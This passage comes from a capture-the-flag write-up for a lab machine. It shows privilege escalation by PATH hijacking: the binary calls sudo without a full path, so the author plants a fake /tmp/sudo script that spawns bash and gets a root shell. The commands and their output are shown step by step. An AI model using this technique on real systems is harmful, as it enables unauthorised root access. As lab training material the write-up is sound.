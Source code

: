 ```
         ************************

 Rule #1: Do not get excited too fast.
    
root@chainsaw:/home/bobby/projects/ChainsawClub# id
uid=0(root) gid=0(root) groups=0(root)

```

### Path 2: Exploit Path

The shortcut here is to exploit the fact that the binary makes a call to `sudo` without specifying the path. I can see this if I run `ltrace`:

```

bobby@chainsaw:~/projects/ChainsawClub$ ltrace ./ChainsawClub 
setuid(0)= -1
system("sudo -i -u root /root/ChainsawCl"...[sudo] password for bobby: 

```

`system` is passed `sudo` without a path, so it will use the current path, which I can modify. I’ll open this binary up in [Beyond Root](#beyond-root) and see what it’s doing.

I’ll add `/tmp` to the front of the path:

```

bobby@chainsaw:~/projects/ChainsawClub$ export PATH=/tmp:$PATH

```

Now, I’ll drop a script to run `bash` into `/tmp/sudo`, and get root:

```

bobby@chainsaw:~/projects/ChainsawClub$ echo -e '#!/bin/bash\n\n/bin/bash' > /tmp/sudo
bobby@chainsaw:~/projects/ChainsawClub$ chmod +x /tmp/sudo
bobby@chainsaw:~/projects/ChainsawClub$ ./ChainsawClub 
root@chainsaw:~/projects/ChainsawClub# id
uid=0(root) gid=1000(bobby) groups=1000(bobby),30(dip)

```

## Find Flag

### No Flag Yet

The intended path did give a warning: “Rule #1: Do not get excited too fast.” With a shell as root, `root.txt` is not the flag:

```

root@chainsaw:/root# cat root.txt
Mine deeper to get rewarded with root coin (RTC)...

```
